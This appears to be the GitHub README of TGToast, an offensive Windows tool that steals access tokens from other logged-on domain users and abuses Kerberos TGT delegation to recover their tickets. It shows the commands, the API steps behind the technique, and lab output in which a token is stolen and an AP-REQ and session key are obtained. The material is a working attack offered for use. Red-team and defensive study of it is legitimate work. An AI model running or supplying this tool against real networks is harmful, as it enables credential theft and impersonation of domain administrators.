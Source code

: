 # TGToast

```
 .\TGToast.exe

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/


Tool to perform TGT delegation abuse, with token stealing capabilities.

Usage: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe <option> [arguments]

Options:
  /list                                 Lists processes from other domain users.
  /steal <PID> <domain> <spn> [/enctype:TYPE]   Steals token, impersonates, and runs tgtdelegation.

  Encryption types (optional): aes256 (default), aes128, rc4

  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local
  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local /enctype:aes256

```
## Purpose
The goal is to *impersonate* a user who is connected to a machine that is controlled by an attacker and recover their TGT. You need *elevated privileges* on the host.

First, we will steal a token from another user (for example some juicy *Domain Admins*). Then, we will use the *TGTDeleg technique*, which abuses the Kerberos GSS-API to retrieve a usable TGT for the current user. Next, *AcquireCredentialsHandle()* is used to retrieve the user's Kerberos security credentials. Then, *InitializeSecurityContext()* is called with the ISC_REQ_DELEGATE flag and a target SPN (such as HOST/DC.domain.com) to prepare a delegation context to be sent to the DC. This results in an AP-REQ in the GSS-API output containing a KRB_CRED structure in the authenticator field that includes the TGT.

## Usage
### List
```
./TGToast.exe /list

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[*] Current User: NORTH\eddard.stark
[*] Searching for processes belonging to other DOMAIN users...

PID    | User                                     | Process Name
----------------------------------------------------------------------------
2944   | NORTH\robb.stark                         | sihost.exe
596    | NORTH\robb.stark                         | svchost.exe
3080   | NORTH\robb.stark                         | taskhostw.exe
3272   | NORTH\robb.stark                         | ctfmon.exe
3524   | NORTH\robb.stark                         | explorer.exe
3760   | NORTH\robb.stark                         | ShellExperienceHost.exe
3840   | NORTH\robb.stark                         | SearchUI.exe
3956   | NORTH\robb.stark                         | RuntimeBroker.exe
4068   | NORTH\robb.stark                         | RuntimeBroker.exe
3120   | NORTH\robb.stark                         | RuntimeBroker.exe
968    | NORTH\robb.stark                         | smartscreen.exe
4860   | NORTH\robb.stark                         | mstsc.exe
```

### TGToasting
```
./TGToast.exe /steal 3524 north.sevenkingdoms.local CIFS/winterfell.north.sevenkingdoms.local

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[+] SeDebugPrivilege enabled.
[*] Attempting to steal token from PID 3524...
[+] Successfully stole token from user: NORTH\robb.stark
[*] Successfully impersonating user. Now attempting TGT delegation abuse...
----------------------------------------------------------------------------
[+] Target Domain (for reference): north.sevenkingdoms.local
[+] Target SPN: CIFS/winterfell.north.sevenkingdoms.local
[+] Successfully obtained a handle to the current credentials set!
[+] Successfully initialized the Kerberos GSS-API!
[+] The delegation request was successful! AP-REQ ticket is now in the GSS-API output.
[+] Successfully invoked LsaCallAuthenticationPackage! The Kerberos session key should be cached!

[+] AP-REQ output:
YI...(snip)...91pPYw==

[+] Kerberos session key:
Ab1lnjT...(snip)...pEcFY=

[+] Encryption:
AES256

[+] tgtdelegation succeeded under impersonated context!
----------------------------------------------------------------------------
[*] TGT delegation attempt finished. Reverting to original identity.
```
# Limits
There are a few limitations,it doesn't work if the target accounts are:
- member of protected users;
- account is sensitive and cannot be delegated.

## ToDo
- Code rework, the current code is a poc, not the definitive code (and it's ugly)
- Extract TGT from ap-req using Session Key

## Credits
Many thanks to these projects, all I did was put the ideas together.
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs](https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs)
- [https://github.com/connormcgarr/tgtdelegation/tree/master](https://github.com/connormcgarr/tgtdelegation/tree/master)

